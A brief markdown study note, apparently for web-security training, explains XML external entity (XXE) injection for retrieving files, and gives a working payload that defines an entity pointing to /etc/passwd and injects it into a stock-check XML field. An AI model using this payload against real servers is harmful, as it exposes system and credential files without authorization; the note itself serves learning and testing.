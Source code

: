 ## Retrieve Files
* Modify the XML in 2 ways
   	* Introduce/edit a DOCTYPE element defining entity containg path to the file
   	* Edit data value in the XML that is returned in applications response to make use of that entity.
   	* <!DOCTYPE foo [ <!ENTITY xxe SYSTEM “file:///etc/passwd”> ]>
   	* <stockCheck><productId>&xxe;</productId></stockCheck>
* Good to check all data values in submitted XML


